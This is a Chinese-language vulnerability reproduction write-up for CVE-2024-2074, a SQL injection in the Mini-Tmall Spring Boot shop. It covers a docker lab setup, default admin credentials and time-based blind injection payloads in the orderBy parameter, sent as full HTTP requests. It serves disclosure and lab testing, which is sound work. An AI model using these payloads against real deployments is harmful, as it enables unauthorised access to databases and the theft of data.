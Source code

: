# CVE-2024-2074 SpringBoot迷你天猫商城Mini-Tmall sql注入

Mini-Tmall是一个基于Spring Boot的迷你天猫商城。Mini-Tmall在20231017版本及之前存在一个严重的漏洞，攻击者可以利用该漏洞通过远程执行特定操作来注入恶意SQL语句，从而获取敏感信息或控制数据库。此漏洞影响文件?r=tmall/admin/user/1/1的一些未知处理，攻击者可以通过篡改orderBy参数来达成sql注入攻击。攻击者可以通过远程方式发起攻击。

版本影响 <=20231017版本

项目下载地址https://gitee.com/project_team/Tmall_demo/tree/master

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136683670
- https://github.com/yuziiiiiiiiii/CVE-2024-2074/blob/main/cve.md
- https://nvd.nist.gov/vuln/detail/CVE-2024-2074

## 漏洞环境

执行如下命令启动一个minitmall-20231017-web服务器：

```
docker compose up 
```

环境启动后，访问`http://your-ip:8080`将看到minitmall的主页面

## 漏洞复现

需要登录下后台 ，用户admin 密码123456

![](https://img-blog.csdnimg.cn/direct/664f9800839b43159ceb31ce0c64e9c8.png)

1，admin/user接口

发送payload 时间盲注

```
GET /tmall/admin/user/1/1?orderBy=if(1=1,SLEEP(3),0) HTTP/1.1
GET /tmall/admin/user/1/1?orderBy=if(1=0,SLEEP(3),0) HTTP/1.1
```

```
GET /tmall/admin/user/1/1?orderBy=if(1=1,SLEEP(3),0) HTTP/1.1
Host: 192.168.116.128:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=47A17DA7DE2B54FC5D39E161ED9A8614; username=admin; _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; TCSESSIONID=C535ABCCFF3BD453A9744400E7499A10; PHPSESSID=30296698223c1b44b6021dd0ce8ff70f
Connection: close
```

![](https://img-blog.csdnimg.cn/direct/71bab7df101249da8b214465b7943051.png)

![](https://img-blog.csdnimg.cn/direct/d4cf76cfd8a941e89daec694056e9d74.png)

2，admin/product接口

![](https://img-blog.csdnimg.cn/direct/5e6c189d37e9470abe2ff14f2d9fc6d3.png)

![](https://img-blog.csdnimg.cn/direct/e96c849d517a49da85938c3b74e7442a.png)